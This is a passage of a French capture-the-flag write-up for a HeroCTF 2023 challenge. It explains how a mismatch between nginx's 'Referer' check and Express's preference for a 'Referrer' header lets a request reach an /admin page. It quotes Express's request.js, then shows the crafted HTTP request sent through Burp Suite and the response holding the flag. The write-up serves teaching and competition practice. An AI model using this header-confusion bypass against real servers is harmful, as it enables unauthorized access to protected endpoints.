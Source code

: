 <p align="center">
<img src="https://github.com/Sleleu/HeroCTF_WriteUp/assets/93100775/a8278120-a499-44e4-8491-882897860562" />
</p>

Ok ils sont interchangeables pour Express, donc on peut mettre un referer nginx et un referrer express ? On tombe vite sur cette issue github qui apporte plus d’infos sur ce cas : https://github.com/expressjs/express/issues/3951

Il semble que le terme refe**rr**er est recherché en priorité par Express, et en fouillant le code source de [request.js](https://github.com/expressjs/express/blob/master/lib/request.js#L79), on voit effectivement cette priorité :

```javascript
switch (lc) {
    case 'referer':
    case 'referrer':
      return this.headers.referrer
        || this.headers.referer;
    default:
      return this.headers[lc];
  }
};
```
Testons donc ça tout de suite sur Burpsuite :

```http
GET /admin HTTP/1.1
Host: static-01.heroctf.fr:7000
Upgrade-Insecure-Requests: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Referrer:YOU_SHOUD_NOT_PASS!
Referer:https://admin.internal.com
Content-Length: 23


Connection: close
```

On obtient finalement le flag en réponse !

```http
HTTP/1.1 200 OK
Server: nginx/1.24.0
Date: Sat, 13 May 2023 13:20:26 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 38
Connection: keep-alive
X-Powered-By: Express
ETag: W/"26-Cj1P1GdO8Vke/DfJFC3B2cH95nw"

Hero{ba7b97ae00a760b44cc8c761e6d4535b}
```
